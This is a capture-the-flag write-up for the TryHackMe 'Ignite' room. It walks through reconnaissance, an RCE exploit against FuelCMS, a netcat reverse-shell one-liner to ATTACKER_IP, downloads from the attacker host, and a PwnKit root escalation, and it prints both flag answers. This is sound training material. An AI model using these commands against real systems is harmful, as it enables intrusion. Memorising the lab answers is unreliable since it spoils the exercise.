 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Running some basic `nmap` scans:

```shell-session
$ sudo nmap -sS -vv -p- -oN nmap_stealth_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

$ sudo nmap -sV -p80 -vv -oN nmap_service_scan.txt TARGET_IP
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))

$ sudo nmap -sC --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|   /0/: Potentially interesting folder
|   /home/: Potentially interesting folder
|_  /index/: Potentially interesting folder
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
```

Now, time for some directory enumeration/traversal stuff:
```shell-session
$ gobuster dir -t 64 -x txt,xml,php -u http://10.10.53.109/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_dirlist2_3.txt

$ cat gobuster_dirlist2_3.txt | grep "Status: 200"                        
/index.php            (Status: 200) [Size: 16595]
/index                (Status: 200) [Size: 16595]
/home                 (Status: 200) [Size: 16595]
/0                    (Status: 200) [Size: 16595]
/robots.txt           (Status: 200) [Size: 30]
```

The `robots.txt` file is exposed, let's check what it contains:
```txt
## curl http://10.10.53.109/robots.txt
User-agent: *
Disallow: /fuel/
```

Hmm, it seems like the dev is trying to block access to the `/fuel/` directory. The home page of the website at `http://TARGET_IP/` shows us the following:
![](home_page.png)



Checking ExploitDB for some existing exploits for _FuelCMS version 1.4_ shows us 3 different options for gaining initial access, SQL injections, RCE exploits and a CSRF vulnerability that's in version 1.5. I'll be using [this](https://www.exploit-db.com/exploits/50477), based on [CVE-2018-16763](###### [2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763)) for this writeup.

## Gaining Access

```shell-session
$ python3 50477.py -u http://10.10.53.109/        
[+]Connecting...
Enter Command $rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f


# On our machine (in a different session):
$ nc -nvlp 4444         
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.53.109] 44732
sh: 0: can't access tty; job control turned off

$ python -c "import pty; pty.spawn('/bin/bash')"      
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html$ ls
ls
README.md  assets  composer.json  contributing.md  fuel  index.php  robots.txt

# Lets alter the robots file so that we can access the fuel directory and its contents...
www-data@ubuntu:/var/www/html$ echo "User-agent: *" >  robots.txt
www-data@ubuntu:/var/www/html$ echo "Allow: /" >> robots.txt
www-data@ubuntu:/var/www/html$ cat robots.txt
User-agent: *
Allow: /

# and... now the flag :)
www-data@ubuntu:/$ cd /home/www-data
www-data@ubuntu:/home/www-data$ ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

> User flag
> Answer: `6470e394cbf6dab6a91682cc8585059b`

## Privilege Escalation

```
$ www-data@ubuntu:/home/www-data$ uname -a
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/home/www-data$ gcc -v
...
gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.11) 

# On our machine:
$ python3 -m http.server 8080

# On the target machine shell session:
www-data@ubuntu:/home/www-data$ cd /tmp
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/linpeas.sh
www-data@ubuntu:/tmp$ sh linpeas.sh
...


╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                   

Potentially Vulnerable to CVE-2022-2588
...

```

I once again searched ExploitDB and came across [this exploit](https://www.exploit-db.com/exploits/50689) that allows privilege escalation. 

```

www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/evil-so.c
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/exploit.c
www-data@ubuntu:/tmp$ wget http://ATTACKER_IP:8080/Makefile
www-data@ubuntu:/tmp$ make
...
www-data@ubuntu:/tmp$ ./exploit
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
b9bbcb33e11b80be759c4e844862482d
```

> Root flag
> Answer: `b9bbcb33e11b80be759c4e844862482d`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Ignite by DarkStar7471](https://tryhackme.com/room/ignite)
